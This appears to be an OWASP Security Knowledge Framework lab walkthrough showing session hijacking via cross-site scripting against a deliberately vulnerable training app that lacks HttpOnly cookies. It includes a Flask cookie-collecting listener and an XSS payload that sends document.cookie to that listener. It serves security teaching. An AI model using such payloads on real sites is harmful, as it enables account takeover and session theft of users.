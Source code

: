 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/3.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip3 install flask
$ pip3 install requests
$ python3 app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
